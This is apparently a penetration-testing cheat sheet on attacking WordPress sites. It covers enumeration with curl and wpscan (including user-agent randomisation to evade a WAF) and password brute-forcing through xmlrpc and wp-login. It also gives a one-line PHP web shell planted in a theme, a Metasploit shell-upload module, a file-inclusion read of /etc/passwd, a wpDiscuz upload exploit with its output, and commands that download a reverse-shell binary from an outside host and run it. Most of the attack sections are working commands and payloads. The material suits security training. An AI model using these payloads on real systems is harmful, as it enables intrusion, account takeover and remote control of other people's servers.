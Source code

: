 # WordPress

## General

{% hint style="info" %}
[WordPress Vulnerability Statistics](https://wpscan.com/statistics/)
{% endhint %}

```shell
# Web root
/wp-admin
    admin.php
/wp-content
    /themes
    /plugins
/wp-includes
index.php
license.txt
readme.html
wp-activate.php
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-cron.php
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
.htaccess
wp-config.php # database info
```

<details>

<summary>Wordlists</summary>

[wordpress.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wordpress.fuzz.txt)

[wp-plugins.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt)

[wp-themes.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-themes.fuzz.txt)

</details>

<details>

<summary>Roles &#x26; Permissions</summary>

Administrator -> King :crown:

Editor -> Post management + publish (for all users)

Author -> Post management + publish (owned posts)

Contributor -> Post management (owned posts)

Subscriber -> Browse posts, manage its own profile

</details>

## Enumeration

{% tabs %}
{% tab title="Manual" %}
{% code overflow="wrap" %}
```bash
# Version
curl -s example.com | grep '<meta name="generator"'

# Themes
curl -s example.com | grep themes

# Plugins
curl -s example.com | grep plugins
sudo wpscan -t 20 --url http://readys -e ap --plugins-detection aggressive

# Plugin version (requires Directory listing to be enabled)
curl -s example.com/wp-content/plugins/mail-masta/readme.txt | grep "Stable tag:"
```
{% endcode %}
{% endtab %}

{% tab title="wpscan" %}
[WPScan](https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation) is a free, Ruby-based WordPress security scanner that performs black-box testing to identify vulnerabilities in WordPress core, plugins, themes, and user configurations.

{% hint style="info" %}
For vulnerability scanning get a token from [WPScan](https://wpscan.com/).
{% endhint %}

{% code overflow="wrap" %}
```bash
# Update database
wpscan --update

# General enumeration
sudo wpscan --url example.com --enumerate --api-token <TOKEN>

# Modify agent for WAF evasion
sudo wpscan --url example.com --enumerate --api-token <TOKEN> --random-user-agent
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Attacks

### BFA

`wp-login.php` is the standard login form that accepts one login attempt per request. `xmlrpc.php` allows login via API calls and can bundle many attempts in one request, making brute-force faster. Even if `wpscan` outputs that XML-RPC is enabled, login-related methods may be blocked by plugins or server settings, so attacks through it can fail while `wp-login` attacks still work.

WPScan uses 2 kinds of BFA:

1. [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) → uses WP's API to BF (`xmlrpc.php`) (faster)
2. wp-login → attempts to BF `wp-login.php`&#x20;

{% code overflow="wrap" %}
```bash
# Enumerating users and brute-forcing
sudo wpscan --url example.com -e u --passwords password.lst

# Targeted BFA using xmlrpc
sudo wpscan --password-attack xmlrpc -t 20 --url http://example.com -U roger -P /usr/share/wordlists/rockyou

# Targeted BFA using wp-login
sudo wpscan --password-attack wp-login -t 20 --url http://example.com -U james -P cewl_tokens.txt
```
{% endcode %}

### RCE

{% tabs %}
{% tab title="Manual" %}
Modify an inactive theme (for avoiding breaking the site) by inserting a PHP web shell:&#x20;

```php
<?php system($_GET['c']); ?>
```

<figure><img src="../../.gitbook/assets/http_80_ir_webshell_process.png" alt=""><figcaption><p>Step for RCE after gaining admin access.</p></figcaption></figure>

Interact with the shell via CLI.

```bash
curl http://example.com/wp-content/themes/twentytwenty/404.php?c=id
```

The same exact method can be done with Plugins:

{% hint style="warning" %}
Remeber to activate the plugin after: _Plugins_ → _Installed Plugins_ → _Activate_.
{% endhint %}

<figure><img src="../../.gitbook/assets/wp_rce_2.png" alt=""><figcaption></figcaption></figure>
{% endtab %}

{% tab title="MSF" %}
MSF's [`wp_admin_shell_upload`](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) module can be used:

```bash
# use module (make sure to set VHOST if needed)
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
```
{% endtab %}
{% endtabs %}

## Plugins

{% tabs %}
{% tab title="mail-masta" %}
No longer supported:

* [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438)
* [Local File Inclusion](https://www.exploit-db.com/exploits/50226).

{% code overflow="wrap" %}
```php
<?php 

include($_GET['pl']); # no validation/sanitization
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```
{% endcode %}

{% code overflow="wrap" %}
```shell
$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
{% endcode %}
{% endtab %}

{% tab title="wpDiscuz" %}
wpDiscuz version `7.0.4` contains a **file upload vulnerability** **that can lead to unauthenticated remote code execution** ([CVE-2020-24186](https://nvd.nist.gov/vuln/detail/CVE-2020-24186)). Although the plugin is meant to accept only image attachments in comments, its MIME type validation can be bypassed, allowing a PHP file to be uploaded and executed. Exploitation requires a valid post with comments enabled.

The [PoC](https://www.exploit-db.com/exploits/49967) takes two arguments: `-u` for the target URL and `-p` for the path to a comment-enabled post. Once executed, the script uploads the payload and returns the file path for remote code execution.

{% hint style="warning" %}
The default PoC may fail, but `curl` can be used to interact with the uploaded webshell.
{% endhint %}

{% code overflow="wrap" %}
```bash
$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php&quot; 

> id

[x] Failed to execute PHP code...

$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{% endcode %}
{% endtab %}

{% tab title="simple-file-list" %}
Simple File List plugin < `4.2.3` is vulnerable to an **unauthenticated RCE** flaw ([CVE-2025-34085](https://nvd.nist.gov/vuln/detail/CVE-2025-34085/change-record?changeRecordedOn=07/16/2025T12:15:26.130-0400)). Despite being designed to allow file uploads, the plugin fails to properly validate files after they are renamed. An attacker can upload a file with a benign extension (e.g., `.png`) that actually contains PHP code. Using a vulnerable script within the plugin, the file can then be renamed to `.php` and accessed directly, resulting in full remote code execution. The available [PoC](https://github.com/B1ack4sh/Blackash-CVE-2025-34085) allows direct RCE via the `--cmd` parameter:&#x20;

{% code overflow="wrap" %}
```bash
# Transfer a reverse shell payload
$ python3 CVE-2025-34085.py -u http://nukem --cmd "wget http://192.168.45.170/revshell.elf -O /tmp/revshell.elf"

# Make the file executable
$ python3 CVE-2025-34085.py -u http://nukem --cmd "chmod +x /tmp/revshell.elf"

# Execute the file
$ python3 CVE-2025-34085.py -u http://nukem --cmd "/tmp/revshell.elf"
```
{% endcode %}
{% endtab %}
{% endtabs %}
